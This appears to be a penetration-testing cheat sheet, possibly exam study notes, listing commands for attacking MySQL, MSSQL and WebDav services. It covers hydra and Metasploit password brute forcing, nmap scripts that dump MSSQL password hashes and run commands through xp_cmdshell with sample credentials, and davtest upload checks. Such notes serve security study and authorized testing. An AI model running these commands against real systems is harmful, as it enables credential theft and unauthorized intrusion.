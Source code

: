 ```bash

=BRUTEFORCE
auxiliary/scanner/mysql/mysql_login
hydra -l user -P /usr/share/metatsploit-framework/data/wordlists/unix_passwords.txt mysql://$IP
```


>[!note] MSSQL
```bash
=NMAP SCRIPTS=
nmap $IP
nmap $IP -p 1433  -sV

=NSE=
#info about sql server (name,number,product,service pack,patches)
--script ms-sql-info

#info about ntlm (netbiosname,netbioscomputername,dnsdomainname,productversion)
--script ms-sql-ntlm-info --script-args mssql.instance-port=1433

# script for bruteforcing
--script ms-sql-brute --script-args userdb=common_users.txt,passdb=common-passwords.txt

# check for users with empty passwords
--script ms-sql-empty-passwords

# execute queries with new credentials
--script ms-sql-query --script-args mssql.username=admin,mssql.passwords=anamaria,ms-sql-query="SELECT * FROM master..syslogins" -oN queryNSE.txt

# dump hashes with creds of elevated user 
--script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

# check if xp_cmdshell is enabled and run a cmd with it
--script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.passwords=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"

=MSF=
#bruteforce (finds empty password users too)
auxiliary/scanner/mssql/mssql_login

#enumeration (LOTS OF INFO)
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec
auxiliary/admin/mssql/mssql_enum_domain_accounts
```


# Host & Network PT (Just Services & Applications)
### Windows
#### WebDav Attack chain
```bash
> -p 80 --script=http-enum $IP

BRUTEFORCE FOR CREDS 
> hydra -L /wordlist.txt -P /common_passwords.txt $IP http-get /webdav/

INTERACTION
- WITH DAVTEST --> test what file extentions can be uploaded, if a directory can be created, and what file extensions can be executed

> davtest -auth bob:password -url http://$IP/webdav
```
